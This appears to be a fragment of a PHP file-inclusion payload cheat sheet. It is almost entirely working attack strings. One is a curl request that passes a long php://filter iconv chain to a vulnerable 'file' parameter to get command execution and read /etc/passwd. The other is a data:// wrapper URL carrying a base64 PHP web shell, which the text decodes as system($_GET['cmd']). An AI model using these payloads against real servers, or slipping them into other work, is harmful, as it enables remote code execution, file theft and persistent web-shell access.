   ```powershell
  curl "127.0.0.1:8000/index.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd"
  ```


### Wrapper data://

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
